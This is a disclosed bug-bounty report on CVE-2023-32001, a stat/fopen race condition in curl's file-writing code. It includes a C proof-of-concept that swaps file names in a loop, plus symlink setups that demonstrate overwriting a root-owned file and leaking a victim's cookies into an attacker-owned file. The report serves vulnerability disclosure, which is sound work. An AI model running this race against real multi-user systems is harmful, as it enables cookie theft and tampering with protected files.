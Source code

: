 # CVE-2023-32001: fopen race condition

## Report Details
- **Report ID**: 2039870
- **URL**: https://hackerone.com/reports/2039870
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-27T07:05:59.844Z
- **Disclosed**: 2023-07-25T05:00:08.873Z

## Reporter
- **Username**: selmelc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
As we can see in the following curl code (line 59-61 https://github.com/curl/curl/blob/fb802b521af997230b65174a559f5c419520e142/lib/fopen.c ): 
```C
  if(stat(filename, &sb) == -1 || !S_ISREG(sb.st_mode)) {
    /* a non-regular file, fallback to direct fopen() */
    *fh = fopen(filename, FOPEN_WRITETEXT);
...
}
...
```
There is a race condition between the moment "stat(filename, &sb)" is executed and the moment " fopen(filename, FOPEN_WRITETEXT);" is executed.
This leads to undesirable behavior such as an attacker tricking a privileged user to overwrite protected files, or since this function (Curl_fopen) is also used for storing cookies an attacker could trick another user to send those cookies that might be very sensible to a file fully owned and controlled by the attacker.

###POC/Steps to reproduce:
Before we start, I will be using a little program called "rename". Which simply swaps atomically the names of two files to be able to showcase this race condition. Here is its code :
```
#include <strings.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Open two terminals, with two different users. One will be the attacker terminal and the other the victim. 
In both POCs, the victim  will want to execute a command such as "curl --cookie-jar a google.com" thinking the file "a" doesn't exist.

###A) Exploiting this vulnerability to trick a user to overwrite a file they own:

Assume the current directory of both attacker(selmelc) and victim (root) looks like this
```SHELL
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 07:11 a -> flag
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 07:11 b
-rw-r--r-- 1 root    root        6 Jun 27 07:05 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
The attacker executes ./rename a b, which will not stop to swap the name of the directory "b" and the symlink "a". 

The victim executes their command "curl --cookie-jar a google.com".
The race condition is successfully exploited if in the vulnerable code the stat identifies the file "a" as a directory and then the "fopen" opens the symlink that points to the file "flag".
If that happened then the results looks like this :
```
...
-rw-r--r-- 1 root    root      131 Jun 27 07:13 flag
...
root@deb:/home/selmelc/Documents# cat flag
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.
```
Additional note: 
You might think "well that's just how symlinks work"... To clarify on that, by default if the victim was executing  "curl --cookie-jar a google.com" without the attacker exploiting the vuln. a different behavior would occur ; the file "a" would be erased (no more symlink) and overwritten as a regular file containing the cookie data. This happens because the stat function follows symbolic links therefore in that scenario we would not enter the vulnerable condition which leads to the race condition.

###B) Exploiting this vulnerability to steal the victim's cookies and hide it from them:

As this uses the same logic as the previous exploit for this vuln. Repeat same steps except this time we want the "flag" file to be owned by the attacker as following:
```
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 08:42 a -> flag
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 b
-rw--w--w- 1 selmelc selmelc     0 Jun 27 08:41 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename

```
Normal curl behavior after the victim executed  "curl --cookie-jar a google.com" :
```
-rw------- 1 root    root      131 Jun 27 08:49 a
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 b
-rw--w--w- 1 selmelc selmelc     0 Jun 27 08:41 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
Behaviour when vulnerability is exploited (and race condition met) : 
```
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 a
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 08:50 b -> flag
-rw--w--w- 1 selmelc selmelc   131 Jun 27 08:51 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
We can notice the 131 bytes of output in flag now, which would contain the sensitive cookies.

## Impact

An attacker is able to overwrite files they shouldn't have access to, however the attacker does not control the data sent to those files. (Integrity, potentially availability issues if files likes /etc/passwd are modified through this).
An attacker may also gain access to sensitive data (cookies), and even hide that information from the intended receiver as the attacker may control the file in which this information will be leaked.
Note : cookie storing was used to demonstrate exploits for the vulnerability but the vulnerability also affects HSTS and alt-svc cache.

## Attachments
No attachments
